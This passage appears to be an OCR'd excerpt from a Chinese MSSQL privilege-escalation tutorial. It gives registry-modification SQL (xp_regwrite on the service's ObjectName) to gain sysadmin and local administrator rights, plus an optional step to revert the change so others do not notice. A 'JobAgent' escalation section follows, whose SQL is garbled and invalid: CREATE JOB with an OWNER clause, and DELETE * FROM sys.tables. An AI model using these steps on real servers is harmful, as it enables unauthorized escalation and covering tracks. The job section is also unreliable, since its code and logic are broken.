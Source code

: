 ```plsql
EXEC xp_regread N'HKEY_LOCAL_MACHINE',N'SOFTWARE\Microsoft\MSSQLServer\MSSQLServer',N'LoginMode'
```

2. 找到MSSQL服务对应的registry项,如:

```plsql
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MSSQL$SQL2019 
```

3. 修改注册表项中`ObjectName`的值为`Administrator`,如:

```plsql
DECLARE @name NVARCHAR(512);
SET @name = N'Administrator';  
EXEC xp_regwrite N'HKEY_LOCAL_MACHINE', 
    N'SYSTEM\CurrentControlSet\Services\MSSQL$SQL2019',  
    N'ObjectName',   
    @name;
```

4. 重启MSSQL服务,然后就可以以`sa`帐号登录,同时具有`sysadmin`权限和服务器本地管理员权限。

5. (可选)再修改注册表将`ObjectName`改回 NT SERVICE\MSSQL$SQL2019防止他人发现。



#### 7.JobAgent提权

+  查找有权限创建作业的帐号,如`sa`
+  使用该帐号创建作业,指定作业owner为低权限用户
+  低权限用户可以修改和执行作为自己owner的作业,从而达到提权的目的

1. 创建作业的高权限用户:

```plsql
CREATE LOGIN newuser WITH PASSWORD = 'password'
CREATE USER newuser FOR LOGIN newuser
GRANT ALTER ANY JOB TO newuser
```

2. 新用户创建作业,指定OWNER为低权限用户:

```plsql
EXECUTE AS USER = 'newuser'
CREATE JOB DeleteTablesJob 
AS
DELETE * FROM sys.tables
OWNER = 'lowprivuser'  --指定OWNER为lowprivuser用户
```

3. 低权限用户可以修改并启动自己OWNER的作业:

```plsql
EXECUTE AS USER = 'lowprivuser'  --以lowprivuser用户执行
ALTER JOB DeleteTablesJob ENABLE  
```

4. 作业被启动,lowprivuser用户就完成了提权,可以删除sys.tables表等。


